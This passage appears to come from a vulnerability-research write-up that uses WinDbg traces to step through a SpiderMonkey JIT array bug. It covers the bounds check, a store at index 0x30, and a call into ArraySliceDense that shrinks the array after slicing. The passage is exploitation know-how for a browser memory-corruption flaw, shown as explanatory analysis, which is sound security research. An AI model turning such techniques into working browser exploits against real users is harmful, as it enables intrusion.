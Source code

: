 ```text
ebx=00000000`00000031  ecx=00000000`00000030  
```

Sweet; this `cmp` is basically the `boundscheck` instruction that compares the `initializedLength` (`0x31`) of the array (because we initialized `Arr[0x30]` a bunch of times when warming-up the JIT) to `Idx` which is `0x30`. The index is in bounds and so the code doesn't bailout and keeps going forward.

#### __Storing the integer `0x41414141` inside the array's `elements_` memory space__

If we trace a little further we can see the code generated that loads the integer `0x41414141` into the array at the index `0x30`:

```text
0:000> 
0000035c`97b8b2ad 49bb414141410080f8ff mov r11,0FFF8800041414141h

0:000> 
0000035c`97b8b2b7 4c891cea        mov     qword ptr [rdx+rbp*8],r11 ds:000031ea`c7502348=fff88000000003e6

0:000> r @rdx,@rbp
rdx=000031eac75021c8 rbp=0000000000000030
```

And then the invocation of `slice`:

```text
0:000>
0000035c`97b8b34b e83060ffff      call    0000035c`97b81380

0:000> t
00000289`d04b1380 48b9008021d658010000 mov rcx,158D6218000h

0:000> u . l20
...
0000035c`97b813c6 e815600000      call    0000035c`97b873e0

0:000> u 0000035c`97b873e0 l1
0000035c`97b873e0 ff2502000000    jmp     qword ptr [0000035c`97b873e8]

0:000> dqs 0000035c`97b873e8 l1
0000035c`97b873e8  00007ff6`e5c642a0 js!js::ArraySliceDense [c:\work\codes\mozilla-central\js\src\builtin\Array.cpp @ 3637]
```

#### __Calling `slice` on `Special`__

Then, making sure we triggered the side-effect and shrunk `Arr` right after the slicing operation (note that I added code in the PoC to print the address of `Arr` before and after the `gc` call otherwise we would have no way of getting its address). To witness that we have to do some more work to break on the right iteration (when `Trigger` is set to `True`) otherwise the function doesn't shrink `Arr`. This is to ensure that we warmed-up the JIT enough and that the function has been JIT'ed.
